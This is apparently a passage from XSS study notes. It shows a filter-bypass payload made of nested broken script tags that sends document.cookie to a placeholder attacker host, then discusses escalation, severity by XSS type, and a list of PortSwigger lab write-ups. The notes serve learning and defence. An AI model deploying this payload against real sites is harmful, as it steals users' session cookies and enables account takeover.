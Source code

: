     <scrip<script>t>
    location='http://attacker_server_ip/c='+document.cookie;
    </scrip</script>t>

The filter won’t recognize those broken tags as legitimate, but once the filter removes the intact tags from this payload, the rendered input becomes a perfectly valid piece of JavaScript code:

    <script>location='http://attacker_server_ip/c='+document.cookie;</script>

## Escalation

XSS attacks can result in:

* Hijacking a user’s session, using credentials to access other sites or redirect the user to unintended websites.
* Altering website pages or inserting sections into a web page.
* Executing scripts to extract sensitive information from cookies or databases.

The impact varies. The type of XSS determines the number of users who could be affected. 

* Stored XSS on a public forum can realistically attack anyone who visits that forum page, so stored XSS is considered the most severe. 
* Reflected or DOM XSS can affect only users who click the malicious link.
* Self-XSS requires a lot of user interaction and social engineering to execute.

The identities of the affected users matter too. If a stored XSS vulnerability is on a site’s server logs, the XSS can affect system administrators and allow attackers to take over their sessions. Since the affected users are accounts of high privilege, the XSS can compromise the integrity of the entire application. You might gain access to customer data, internal files, and API keys. You might even escalate the attack into RCE by uploading a shell or execute scripts as the admin.

* In a brochure-ware application, where all users are anonymous and all information is public, the impact will often be minimal.
* In an application holding sensitive data, such as banking transactions, emails, or healthcare records, the impact will usually be serious.
* If the compromised user has elevated privileges within the application, then the impact will generally be critical, allowing the attacker to take full control of the vulnerable application and compromise all users and their data.

## Portswigger lab writeups

* [Open redirection techniques](redirects.md)
* [Reflected XSS into HTML context with nothing encoded](../burp/xss/1.md)
* [Stored XSS into HTML context with nothing encoded](../burp/xss/2.md)
* [DOM XSS in document.write sink using source location.search](../burp/xss/3.md)
* [DOM XSS in innerHTML sink using source location.search](../burp/xss/4.md)
* [DOM XSS in jQuery anchor href attribute sink using location.search source](../burp/xss/5.md)
* [DOM XSS in jQuery selector sink using a hashchange event](../burp/xss/6.md)
* [Reflected XSS into attribute with angle brackets HTML-encoded](../burp/xss/7.md)
* [Stored XSS into anchor href attribute with double quotes HTML-encoded](../burp/xss/8.md)
* [Reflected XSS into a JavaScript string with angle brackets HTML encoded](../burp/xss/9.md)
* [DOM XSS in document.write sink using source location.search inside a select element](../burp/xss/10.md)
* [DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded](../burp/xss/11.md)
* [Reflected DOM XSS](../burp/xss/12.md)
* [Stored DOM XSS](../burp/xss/13.md)
* [Exploiting cross-site scripting to steal cookies](../burp/xss/14.md)
* [Exploiting cross-site scripting to capture passwords](../burp/xss/15.md)
* [Exploiting XSS to perform CSRF](../burp/xss/16.md)
* [Reflected XSS into HTML context with most tags and attributes blocked](../burp/xss/17.md)
* [Reflected XSS into HTML context with all tags blocked except custom ones](../burp/xss/18.md)
* [Reflected XSS with some SVG markup allowed](../burp/xss/19.md)
* [Reflected XSS in canonical link tag](../burp/xss/20.md)
* [Reflected XSS into a JavaScript string with single quote and backslash escaped](../burp/xss/21.md)